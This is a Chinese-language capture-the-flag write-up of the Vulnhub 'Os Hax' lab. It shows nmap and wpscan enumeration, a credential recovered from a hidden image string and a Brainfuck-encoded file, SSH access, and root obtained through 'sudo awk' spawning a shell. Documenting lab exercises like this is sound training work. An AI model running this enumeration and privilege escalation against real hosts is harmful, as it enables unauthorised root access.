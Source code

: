 ```yaml
---
layout: post
title: "Os Hax walkthrough"
date: 2021-06-30
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP               |
| ------------- | ---------------- |
| 本机（Win10） | `192.168.36.234` |
| Kali          | `192.168.36.89`  |
| OS-Hax        | `192.168.36.98`  |

### 扫描端口和版本信息

`nmap -A 192.168.36.98`

```shell
┌──(root💀kali)-[~]
└─# nmap -A 192.168.36.98
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-30 05:11 UTC
Nmap scan report for localhost (192.168.36.98)
Host is up (0.016s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

扫描结果显示靶机开启**22**、**80**端口，没什么注意的地方。接下来进行目录枚举，发现网站在路径*/wordpress/*下搭建的是**Wordpress** CMS，并且在*wpscan*工具扫描后发现一个用户：`web`

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.36.98/wordpress/ -e u
...
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:06 <====================================> (10 / 10) 100.00% Time: 00:00:06

[i] User(s) Identified:

[+] web
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

之后经过账户密码爆破无果后，最终在*/img*目录下发现一个可疑的图片文件：`flaghost.png`，并且图片显示内容是用户配置靶机*hosts*文件，没什么关键信息，不过在经过*strings*工具查看后得到一个字符串：`passw@45`。得到该字符串首先想到的就是账户密码，但使用`web:passw@45`账户名和密码不能登录后台或ssh服务，之后发现这是一个目录名🙄。

在*http://192.168.36.98/passw@45/*目录下得到一个*flag2.txt*文本文件，将内容经过[Brainfack](https://www.splitbrain.org/services/ook
)解码后得到账户名和密码：`web:Hacker@4514`

### Getshell

使用`web:Hacker@4514`账户名和密码登录到靶机ssh服务，并且发现可运行*/usr/bin/awk*脚本文件。

```shell
┌──(root💀kali)-[~]
└─# ssh web@192.168.36.98
web@192.168.36.98's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)
...
$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
$ uname -a
Linux jax 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:01:15 UTC 2019 i686 i686 i686 GNU/Linux
$ sudo -l
Matching Defaults entries for web on jax:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk
...
```

可在`web`的用户目录下得到第三个flag：

```shell
$ cat flag3.txt
   ______          ______          ____                 __
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/


MD5-HASH : 40740735d446c27cd551f890030f7c75
```

### 提权

我们知道`web`账户可运行`/usr/bin/awk`脚本工具，那么可阅读[这篇](https://www.hacknos.com/awk-privilege-escalation/)文章进行`awk`提权，得到最后一个flag。

```shell
web@jax:~$ sudo awk 'BEGIN {system("/bin/sh")}'
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
flag3.txt
# cat flag3.txt
   ______          ______          ____                 __
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/


MD5-HASH : 40740735d446c27cd551f890030f7c75
```

### 总结

主要学到的内容就是对具备SUID权限`awk`工具进行提权，执行命令是：`sudo awk 'BEGIN {system("/bin/sh")}'`